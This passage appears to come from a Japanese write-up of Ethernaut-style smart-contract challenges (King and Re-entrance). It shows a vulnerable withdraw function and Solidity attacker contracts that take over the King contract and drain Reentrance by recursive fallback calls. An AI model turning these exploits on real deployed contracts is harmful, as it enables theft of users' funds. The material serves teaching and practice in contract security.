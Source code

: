 ```solidity
contract Attacker {
    function Attacker() public payable {
        address victim = 0x3C4d1E25Cc0B115E3a9b1c0D04bEFbE94406C83E;
        victim.call.gas(1000000).value(msg.value)();
    }
}
```

最初は `victim.send(msg.value);` と書いていたのだが、out of gas例外が発生して
上手く動かなかった。調べると、 `send()` は呼び出し先へのメソッドへgasを伝播
しないということが[わかった](https://ethereum.stackexchange.com/questions/6470/send-vs-call-differences-and-when-to-use-and-when-not-to-use)。
`King` コントラクトのfallbackメソッドでは、ストレージへ書くなどgasコストが高い
処理をしているので、out of gas例外が発生していたというわけだ。そこで、
`.call.value()` へ書き換えた。それでもgasが足りなかったので、明示的に
gasを付与するようにした。

## 7. Re-entrance

```solidity
contract Reentrance {

  mapping(address => uint) public balances;

  function donate(address _to) public payable {
    balances[_to] += msg.value;
  }

  ...

  function withdraw(uint _amount) public {
    if(balances[msg.sender] >= _amount) {
      if(msg.sender.call.value(_amount)()) {
        _amount;
      }
      balances[msg.sender] -= _amount;
    }
  }

  ...
}
```

`withdraw()` がリエントラントでない。受取先のコントラクトのfallbackメソッドで
`withdraw()` を呼べば、相互再帰が発生して、`Reentrance` コントラクトの残高か
gasが尽きるまで `withdraw()` が繰り返し実行される。

```solidity
contract Attacker {
    address constant victim = 0x0f4108dae2ab39f5c6fc7855dbbe8f8a988be112;

    function exec() public payable {
        victim.call.value(0.1 ether)(bytes4(keccak256("donate(address)")), this);
        victim.call(bytes4(keccak256("withdraw(uint256)")), 0.1 ether);
    }

    function() public payable {
        victim.call(bytes4(keccak256("withdraw(uint256)")), 0.1 ether);
    }
}
```
